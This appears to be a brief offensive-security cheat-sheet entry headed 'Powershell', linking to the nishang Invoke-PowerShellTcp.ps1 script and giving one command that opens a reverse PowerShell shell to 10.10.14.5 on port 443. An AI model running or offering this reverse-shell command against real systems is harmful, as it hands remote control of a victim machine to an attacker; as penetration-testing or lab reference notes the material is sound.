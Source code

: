 
# Powershell

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
```